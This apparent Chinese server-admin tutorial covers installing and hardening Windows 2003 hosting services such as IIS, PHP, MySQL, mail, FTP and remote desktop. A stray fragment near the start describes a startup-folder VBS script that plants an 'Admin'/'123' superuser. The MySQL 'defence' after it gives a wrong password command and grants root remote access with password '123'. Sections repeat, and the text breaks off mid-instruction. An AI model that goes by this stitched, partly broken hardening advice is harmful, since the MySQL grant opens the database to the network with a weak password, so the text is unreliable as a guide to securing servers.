

本文先假设你是一个服务器管理员，现在你的服务器使用Windows 2003服务器系统。你的服务器需要提供支持的组件有：ASP、ASPX、CGI、PHP、FSO、JMAIL、MySQL、SMTP、POP3、FTP、3389终端服务、远程桌面Web连接管理服务等。你会如何实现这样的功能呢？又如何能保证你服务器各方面的安全呢？如果你对这方面的技术很感兴趣，请往下看。

### 系统安装注意事项

首先，先把你的Windows 2003系统安装好。在安装系统时请选择使用NTFS文件系统分区，因为该分区可以对你的服务器资源进行加密、权限设置等。如果你的文件系统分区是使用FAT32的话，后果不堪设想：假如这台服务器作为一台虚拟主机，给客户提供空间，客户只要在自己的空间里上传一个WebShell，如ASP木马等，那么黑客就能通过这个ASP木马取得你的服务器管理权了。这对整个服务器将是没有任何安全性可言的，而这一切就是因为你使用的FAT32文件系统不能为你的文件设置访问权限！

我们把表中的内容输入到启动组中，是一个VBS的脚本文件！注意“\”符号。现在所有工作都完成了，下面就是等机器重启，机器重启后ceshi.vbs也会跟着启动，到时候它机器里就有用户为Admin、密码为123的超级用户了。

防御方法：对于这种攻击方法的防御，最简单、安全的方法就是给MySQL的Root用户增加口令。方法如下：本地设置密码：`mysql -u root password 密码`，远程设置密码：

```sql
grant select,update,delete on *.* to root@'%' identified by '密码';
MySQL> grant select,update,delete on *.* to root@'%' identified by '123'\c
MySQL> grant select,update,delete on *.* to root@'%' identified by '123'
Query OK, 0 rows affected
```

好了，常见的WinNT服务器权限设置相关的话题就讲得差不多了，希望大家能清楚地设置好自己的服务器权限，并且将服务器上的第三方程序的访问权限设置好，这样就能比较好地防护住普通的攻击了，而你的服务器也就会更加地安全！

> 刘流：国内目前绝大多数虚拟主机上都存在这样的问题，即一个简单的ASP木马就可以任意访问同一服务器上其他站点的资源，当然，这是具有修改、删除权限的！

为了系统的安全着想，系统安装好后，还需要给系统设置一个强壮的管理员口令，千万不要使用简单的口令，如123456。因为网络上大部分被黑客入侵的服务器都是因为系统使用弱口令而被黑的。一个强壮的口令应该包括数字、英文字母、符号等，如密码k3d8a^!ka76。设置好一个强壮的系统登录口令后，我们就可以安装上面所述的组件服务支持了。还是那句话：“最少的服务等于最大的安全”，对于一切不需要的服务都不要安装，这样才能保证你服务器的安全性。

## 服务器支持组件的安装方法

### 1. Windows 2003自带的各组件安装方法

现在，我们把各种所需的组件都安装到服务器里。默认情况下，CGI、PHP、JMAIL、MySQL并不是Windows 2003自带的组件服务，如果需要这些服务支持，大家可以登录http://www.serverfocus.net 下载上述最新版的服务组件。

在Windows 2003系统默认的情况下是已经安装了Internet信息服务（IIS）管理器的，而且已经装上了ASP及ASPX的支持。我们可以这样安装：点击开始菜单→控制面板→添加或删除程序→添加/删除Windows组件，然后弹出一个Windows组件向导；我们再在这里添加需要安装的各种Windows 2003系统自带的组件服务，如图1所示。



上面的“电子邮件服务”主要是让我们使用Windows 2003系统自带的组件组建小型企业邮局，而不再依赖于其他外界电子邮局软件，这也是Windows 2003系统的一项新功能。

现在再来安装3389终端服务远程管理组件。该组件在默认情况下也是没有安装上的，我们在组件向导窗口中勾选终端服务就行了。

> 刘流：在Windows 2000系统中终端服务远程管理屏幕最高总能达到256色，而Windows 2003终端服务的远程管理屏幕颜色最高可以达到24位真彩色，这也算是Windows 2003的一项新增功能吧。

再来安装其他的组件支持。点击应用程序服务器，然后点击下面的详细信息按钮，再在该窗口里选择你需要安装的其他服务就可以了。比如IIS，你可以选择是否安装ASP.NET支持等。

其他各项服务都是在Windows组件向导里安装的，依照上面的例子勾选好需要安装的组件后，点击确定即可安装。安装过程中可能会提示你放入Windows 2003系统的安装光盘，放入光盘就可以了。

### 2. CGI支持的安装方法

- （1）由于Windows 2003系统并不自带CGI、PHP、MySQL支持，所以需要我们自己安装。我们首先安装CGI的支持，把下载的ActivePerl-5.8.3.809-MSWin32-x86.msi CGI程序支持软件安装上，安装过程没什么特别的，在这里不再详述。

CGI在Windows 2003的IIS6.0里支持的配置与Windows 2000的IIS5配置有点不同，IIS6增加了一些安全性。下面看看CGI在IIS6里是如何配置的。

- （2）打开开始菜单→程序→管理工具→Internet信息服务（IIS）管理器，在弹出的IIS管理器窗口中双击本地计算机，会弹出一个关联菜单，右键点击网站选择属性后弹出网站属性窗口，再点击主目录→配置→映射→添加，弹出一个添加/编辑应用程序扩展名映射窗口。我们在可执行文件（X）里输入`C:\Perl\bin\perlis.dll`，在扩展名（E）里输入`.cgi`，再选择动作里的限制为（L）：`GET, HEAD, POST, TRACE`。如图2所示。



如果在Windows 2000里这样配置一下就可以运行CGI的脚本了，但在Windows 2003下还要点击Web服务扩展，再分别选择Perl CGI Extension及Perl ISAPI Extension选项，允许使用这两个扩展服务。因为这两个CGI支持的扩展在默认情况下是禁止使用的，在你没有配置允许这两个组件使用时，你的CGI脚本程序将无法正常浏览。Web服务扩展配置方法如图3所示。



### 3. PHP支持的安装方法

在Windows 2003中IIS6的PHP配置与在Windows 2000中也略有不同。在Windows 2003下安装很简单，只不过Windows 2003在IIS6.0的安全方面下了些功夫，所以安装起来要稍费点功夫。

- （1）先去服务器焦点网站下载`php-4.3.6-Win32` PHP支持软件。本人装的是`php-4.3.6-Win32`，在安装`php-4.3.6-Win32`之前要保证你的IIS6.0是启动的，并能够正常访问。
- 1）将`php-4.3.6-Win32`解压到`c:\php`，把PHP目录内的`php.ini-dist`拷贝到Windows目录并改名为`php.ini`。  
  2）按需修改`php.ini`，如启用Session：建立`c:\tmp`目录，并将`session.save_path`设为`c:/tmp`。  
  3）将PHP目录内的`php4ts.dll`复制到`c:\Windows\System32`目录。
- （3）IIS6.0上的PHP配置与CGI类似：在Internet信息服务（IIS）管理器中，右键网站→属性→主目录→配置→映射，添加应用程序扩展映射；可执行文件填写`c:\php\sapi\php4isapi.dll`，扩展名填写`php`，限制动作为`GET,HEAD,POST,TRACE`。





- （4）点击Web服务扩展→新建Web服务扩展，在扩展名填写`php`，在要求的文件中添加`c:\php\sapi\php4isapi.dll`，并勾选“设置状态为允许”。

### 4. Jmail支持的安装方法

先下载Jmail支持软件。这是一个可让服务器发送大量邮件的组件，常用于论坛等程序自动发送注册邮件。文中示例使用Jmail v4.4 Professional，安装时直接运行安装程序并按提示完成即可，无需额外配置。

### 5. MySQL数据库的支持安装方法

- （1）以MySQL For Windows v3.23.57为例：下载安装包，运行`setup.exe`，安装到如`C:\MySQL`目录。  
- （2）为实现开机自启，在系统服务中找到MySQL服务并设置启动。  
- （3）安全配置：必须给默认ROOT账号设置强密码，可在CMD进入`c:\MySQL\Bin`后执行：`MySQLadmin -uroot -p password 新密码`。

以上开始配置了。为了让MySQL在每次系统启动时能自动启动，我们还需进行配置，直接找到MySQL服务并设置为启动即可。

（2）MySQL的安全配置。从安装过程看似简单，但默认ROOT管理员账号为空口令。若不设置密码，等同于给黑客敞开大门。可在CMD进入`c:\MySQL\Bin`后输入命令：`MySQLadmin -uroot -p password 你的新密码`。

### 6. 用Windows 2003架设小型企业邮局服务器

前文介绍了在Windows组件向导中安装SMTP及电子邮件服务的方法。由于仅支持POP3收发，不支持Web收发，需要进一步改进。

- （1）配置POP3服务器：启动POP3服务控制台，选择左栏POP3服务，点击右栏“新域”添加域名（邮件地址@后的域名，如`cnhack.cn`），确认后创建域。



其中“cnhack.cn”应为已在Internet注册的域名，并在域名控制面板中配置MX记录，解析到当前Windows 2003邮件服务器IP地址。

随后可创建用户邮箱：选中新建域，在右栏点击“添加邮箱”，填写邮箱用户名（示例为`cai`）及密码后确认即可完成创建。



- （2）配置SMTP服务器：在IIS管理器中右键点击“默认SMTP虚拟服务器选项”，在弹出的菜单中选择“属性（R）”，进入“默认SMTP虚拟服务器选项”，在“IP地址”下拉列表框中选中邮件服务器的IP地址即可。这样一个简单的邮件服务器就架设完成了。完成以上设置后，用户就可以使用邮件客户端软件连接邮件服务器进行邮件的收发了。在设置邮件客户端软件的SMTP及POP3地址时，输入邮件服务器的域名“cnhack.cn”就可。至此，一个简单的小型电子邮局服务器就配置完成。

### 7. 3389终端服务安全配置

在本文第二节中，我们已经介绍了在Windows组件向导里安装3389终端服务器的方法，我们只须在Windows组件向导里勾选终端服务就可以使用终端服务远程管理服务器了。相信大家都玩过3389肉鸡，网络上大部分被黑客入侵的肉鸡因为开放了3389，而被人不费吹灰之力就能取得远程管理权。

3389终端远程管理服务默认情况下是开放3389端口的。只要将我们终端服务默认开放的端口号改一下，那么黑客就很难猜测我们的服务器是否开放终端服务了。修改终端服务器端口号是通过修改Windows 2003的注册表来实现的，我们只要修改注册表中的其中一项键值即可。点击“开始菜单→运行”，在运行里输入Regedit命令，启动注册表编辑器，然后打开如下键值：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp\
```

找到键名PortNumber，双击打开修改键值，然后选择“十进制（D）”，将原来的3389端口号改为你想更换的端口号。本例中我们把端口改为7890。在端口号修改完毕后，我们重新启动计算机使修改的端口号生效，这样别人就没法使用3389端口连接你的服务器了。重启完成后，我们以后如想连接终端服务器，打开终端服务客户端软件，然后在计算机（C）的右栏中输入你服务器的IP地址及端口号，即可登录你的终端服务器。假设我们的服务器IP地址为192.168.0.8，那么我们只要在输入框中输入“192.168.0.8:7890”即可登录终端服务器。其中，IP与端口号用“:”分隔开。至此，终端服务器端口修改成功。

### 8. 用IE远程管理服务器

在这里，我们主要讲解基于Web管理中的终端服务。就是说我们可以通过任何一台客户机的IE浏览器直接进行远程桌面连接，而不再依赖任何的终端服务客户端工具登录Windows 2003的终端服务了。

现在假设我们客户机使用的是Windows 98系统，服务器的IP地址为192.168.0.8，我们可在IE地址栏中输入地址“http://192.168.0.8:8089”。其中，8089是远程管理Web界面下的SSL端口，然后输入管理员的用户名和密码即可登录Web远程管理界面。在打开的“服务管理”界面中，点击“维护”，再点击“远程桌面”按钮，就会弹出一个远程桌面管理维护的终端窗口，现在就可以连接到远程服务器的桌面了。在该窗口中，你只要输入管理员的用户名及密码，就能成功登录远程桌面，就像你登录3389终端服务一样。

无论是3389终端服务，还是Web远程桌面管理，都是只能允许同时两个连接会话。如果已经有两个以上会话在进行，则新用户将被拒绝进行远程桌面管理登录。必须要等正在登录的原来两个用户其中一个退出登录会话后，你才能登录服务器远程桌面进行管理。

### 9. FTP服务器配置

在本文第二节中，我们已经介绍了在Windows组件向导里安装FTP服务器的方法，现在我们开始使用Windows 2003系统自带的FTP服务架设一台安全的FTP服务器。

- 1）为FTP服务器建立一个安全的专用FTP账号。  
- 2）使用Internet信息服务（IIS）管理器建立一个安全的FTP空间。

点击计算机管理窗口，我们在里面建立一个供FTP客户端登录的账号，用户名为cnhack，密码为chinanetpk。在默认的情况下，用户账号为Users组，虽然普通用户组对服务器安全影响不大，但出于安全考虑，还是把Users组删除，添加到Guests用户组。还应在“cnhack属性”栏里选择远程控制标签，把“启用远程控制”的勾去掉。至此，一个安全的FTP账号建立成功。

我们在D盘建立一个文件夹cnhack，然后选择“属性”，在“cnhack属性”中选择“安全”标签，点击“高级”，去掉“允许父项的继承权限传播到该对象和所有对象，包括那些在此明确指定定义的项目（A）”。在cnhack属性的“安全”标签里还剩下一个超级管理员组Administrators成员可以管理cnhack文件夹，我们再勾选允许超级管理员组成员完全控制该文件夹，这样就给了我们管理员组对cnhack文件夹的完全控制权，再给cnhack用户管理权限。现在`D:\cnhack`文件夹只允许超级管理员组Administrators成员和账号cnhack进行管理与访问了，其他账号将不能对cnhack文件夹有任何的访问权及修改权限。

打开“Internet信息服务（IIS）管理器”，在里面找到“FTP站点”→“默认FTP站点”→“属性”，出现“默认FTP站点属性”对话框，选择“主目录”把原来默认的地址改为我们刚才建立的文件夹`D:\cnhack`。下面会有3个选项，分别是“读取、写入、记录访问”，可根据需要勾选：如果是提供给别人下载的FTP空间，则不要勾选写入选项；如果需要提供给别人上传及更改FTP空间内容的，则需要勾选写入选项。

再来配置使用cnhack才能登录这个FTP。点击“安全账户”“浏览”，根据提示选择我们刚才建立的账户cnhack用户名，这样就指定了这个空间只有使用我们设置的cnhack用户账号才能登录，记住不要勾选下面的“只允许匿名连接”选项。

现在我们再来指定该FTP站点的IP地址，点击“FTP站点”“IP地址（I）”，在右栏输入框里输入我们本机的IP地址即可。还要记得在“TCP/IP端口（T）”的右输入框里修改当前FTP站点的TCP/IP端口号，默认情况下是使用21端口，如图8所示。


这样，一个安全的FTP站点就建立成功了。使用IIS6建立的FTP服务器可以使用IE及FTP客户端软件登录FTP空间，方便实用，功能强大，很值得一试。

### 10. IIS6下防范WebShell安全配置

前几节中，我们已经介绍过了如何在IIS6下配置CGI、PHP。在Windows 2003系统下，ASP和ASPX都是系统组件。

（1）配置一个简单的WWW虚拟主机。

现在，我们举例如何组建一个WWW的虚拟主机网站。打开“Internet信息服务（IIS）管理器”，双击“网站”展开关联菜单，找到“默认网站”“属性”“默认网站属性”“网站”，在“IP地址（I）”里输入机器的IP地址，“TCP端口（T）”默认的端口是80，可以更改。点击“高级（D）”，在里面添加或删除域名，以后我们就可以使用域名来访问你的网站了。

我们再来配置这个虚拟主机的WWW访问目录，点击“主目录”，在“本地路径（C）”中输入`D:\cnhack`，千万不要勾选“写入”项，一般只使用默认的“读取（R）”“记录访问（V）”“索引资源（I）”就已经足够了。如图9所示：

在“文档”里添加好虚拟主机默认的首页文件名。这样一个简单的虚拟主机服务器就配置完成了。

如果你已经按上几节所写的配置好，那么现在你的这个虚拟主机将会是已经支持ASP、ASPX、CGI、PHP、FSO、JMAIL、MySQL、SMTP、POP3、FTP、3389终端服务、远程桌面Web连接管理服务等功能强大的服务器了。

（2）安全使用FSO主机。


按我们上一节所说的方法配置的虚拟主机是存在各种WebShell威胁的。假如你给朋友开了个虚拟主机空间，那么这个虚拟主机存在的最大安全隐患将会是FSO权限问题。FSO安全隐患在Win2K系统里已经是令网管头疼的事了，在Windows 2003中这个隐患依然没有得到解决。在没有经过安全配置的虚拟主机上，只要黑客给虚拟主机空间上传一个ASP木马，黑客就能利用FSO权限浏览服务器里的所有文件，并能复制、删除服务器里的所有文件，甚至能利用ASP木马取得服务器管理权，可见FSO安全配置的重要性。

如果黑客通过某些手段在你的虚拟主机空间上传了一个ASP木马，本例中我们介绍的是黑客们都熟悉的海阳顶端ASP木马。这种WebShell能通过网页在线更改、编辑、删除、移动、上传、下载服务器上的任意文件。只要黑客给你的服务器传上这个ASP木马，你的服务器上的所有文件就会被控制在黑客的手上。黑客能在你的服务器干什么？就是上面提及到的更改、删除、移动……如图10所示。


看到这个图，能想像你的服务器到最后会变成什么样吗？服务器上的资料将没有隐私可言，想黑你服务器上的主页或是删除你服务器上的文件，都是点几下鼠标就能办到的了。这种ASP木马网络上各黑客网站均有下载，源代码就不写出来了，各黑客网站上还有其他版本的ASP木马下载，但基本上都是调用FSO（Scripting.FileSystemObject）写的。

其实你如果要防范这种攻击，只要把ASP中的FSO（Scripting.FileSystemObject）功能删除就行了。删除FSO权限方法就是在CMD的命令提示符下输入以下命令：

```bash
Regsvr32 /u c:\Windows\system32\scrrun.dll
```

> 刘流：在实际操作的时候要更改成为你本地系统安装目录的实际路径，但是使用这种方法删除也太绝了一点，如果以后我们想使用FSO权限，那就用不了了。所以，建议不要使用这种方法删除FSO权限。

显而易见，如果这样做，那么包括站点系统管理员在内的任何人都将不可以使用FileSystemObject对象了，这其实并不是站点管理员人员想要得到的结果。毕竟我们使用这个对象可以实现方便的在线站台管理，如果连系统管理员都没法使用了，那可就得不偿失了。但是不禁止这个危险的对象又会给自己的网站带来安全漏洞。那么，有没有两全其美的方法呢？有！具体方法如下。

我们可以做到禁止其他人非法使用FileSystemObject对象，但是我们自己仍然可以使用这个对象。

方法如下：  
